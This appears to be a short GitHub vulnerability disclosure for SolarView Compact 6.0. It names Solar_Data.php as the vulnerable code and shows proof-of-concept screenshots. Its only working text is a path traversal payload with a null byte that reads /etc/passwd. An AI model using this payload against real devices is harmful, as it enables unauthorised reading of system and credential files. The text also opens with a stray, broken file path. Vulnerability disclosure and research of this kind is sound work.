 # SolarView_Compact_6.0_-
### Vulnerability code is Solar_Data.php

![image](https://user-images.githubusercontent.com/72059221/169178411-575f2e6d-15a4-4e24-8c02-fe304cd13f7f.png)

![image](https://user-images.githubusercontent.com/72059221/169178472-6e23e634-6aef-4812-ac96-ee40c545f293.png)


### Payload

```
../../../../../../../etc/passwd%00.csv
```

### POC
 
![6UbozyMqlQ](https://user-images.githubusercontent.com/72059221/169178359-40449bf5-9981-4e15-a05e-c71fd8f5670a.jpg)

